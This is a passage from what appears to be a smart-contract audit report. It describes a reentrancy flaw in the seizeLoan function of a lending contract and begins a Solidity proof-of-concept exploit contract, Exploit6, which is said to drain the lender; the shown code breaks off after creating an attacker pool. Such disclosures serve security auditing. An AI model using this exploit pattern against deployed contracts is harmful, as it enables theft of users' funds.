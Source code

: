 ```solidity

    // update the pool outstanding loans
    pools[poolId].outstandingLoans -= loan.debt;

    emit LoanSiezed(
        loan.borrower,
        loan.lender,
        loanId,
        loan.collateral
    );
    // delete the loan
    delete loans[loanId];
```
https://github.com/Cyfrin/2023-07-beedle/blob/658e046bda8b010a5b82d2d85e824f3823602d27/src/Lender.sol#L565

An attacker can take a loan in his own pool and seize it, then the hook on token transfer allows him to re-enter the `seizeLoan` function to extract another time the collateral amount from the contract.

## Impact
### POC
An attacker can use the following exploit contract to drain the `lender` contract:
```solidity
File: Exploit6.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {WeirdToken} from "./WeirdToken.sol";
import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import "../utils/Structs.sol";
import "../Lender.sol";

contract Exploit6  {
    Lender lender;
    address loanToken;
    bool auctionEnded;
    bytes32 attackerPoolId;

    constructor(Lender _lender, address _loanToken) {
        lender = _lender;
        loanToken = _loanToken;
    }

    function attackPart1(address _loanToken, address _collateralToken) external {
        ERC20(_loanToken).approve(address(lender), type(uint256).max);
        ERC20(_collateralToken).approve(address(lender), type(uint256).max);
        // (1) Create a new pool        
        Pool memory pool = Pool({
            lender: address(this),
            loanToken: _loanToken,
            collateralToken: _collateralToken,
            minLoanSize: 1,
            poolBalance: 100,
            maxLoanRatio: type(uint256).max,
            auctionLength: 5 minutes,
            interestRate: 0,
            outstandingLoans: 0
        });
        bytes32 poolId = lender.setPool(pool);
        attackerPoolId = poolId;
```